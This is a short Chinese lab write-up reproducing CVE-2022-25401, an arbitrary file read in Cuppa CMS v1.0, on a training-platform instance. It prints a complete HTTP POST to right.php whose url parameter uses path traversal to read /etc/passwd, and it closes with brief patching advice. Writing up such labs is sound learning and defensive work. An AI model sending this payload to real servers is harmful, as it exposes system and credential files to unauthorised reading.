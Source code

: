 #  Cuppa CMS-任意文件读取CVE-2022-25401   
原创 張童學  Nick安全   2024-11-19 07:45  
  
### 0x01、漏洞环境  
```
1、春秋云镜：https://yunjing.ichunqiu.com/cve/detail/744?type=1&pay=2
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iauPABibqVzA4b5X8fP7KOWSPs78g0f2QsfHXCVJF5kCbJo2gqqAiaictYiadauXUKtSOguiafIr05NaI0EMqHtbJJaQ/640?wx_fmt=png&from=appmsg "")  
### 0x02、漏洞介绍  
```
1、Cuppa CMS v1.0 administrator/templates/default/html/windows/right.php
文件存在任意文件读取漏洞。
```  
### 0x03、漏洞复现  
  
1、打开网站  
```
http://eci-2ze83tbbiyemh4fxuteh.cloudeci1.ichunqiu.com
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iauPABibqVzA4b5X8fP7KOWSPs78g0f2Qs0O6nZDLxRr5XZXGSzNDxAuw7icyv0b6yWINjiarMEAR4KGDUiaI0aekHA/640?wx_fmt=png&from=appmsg "")  
```
构造post请求：POST /templates/default/html/windows/right.php
提交参数id=1&path=component/table_manager/view/cu_views&uniqueClass=window_right_246232&url=../../../../../../etc/passwd
```  
```
完整参数如下：
POST /templates/default/html/windows/right.php HTTP/1.1
Host: eci-2ze83tbbiyemh4fxuteh.cloudeci1.ichunqiu.com
Cache-Control: max-age=0
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: country=us; language=en; PHPSESSID=khjcn6r6rsslajkuav6n9itaa6; administrator_path=http%3A%2F%2Feci-2ze83tbbiyemh4fxuteh.cloudeci1.ichunqiu.com%2F
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 112

id=1&path=component/table_manager/view/cu_views&uniqueClass=window_right_246232&url=../../../../../../etc/passwd
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/iauPABibqVzA4b5X8fP7KOWSPs78g0f2QsTr7QwQqMqVZKwooCjpxvZ3jcsUrTzcgZQzEWqbYwywbQMsIr3iaNBjQ/640?wx_fmt=png&from=appmsg "")  
### 0x04 修复建议  
  
1、建议您更新当前系统或软件至最新版，完成漏洞的修复。  
  
  
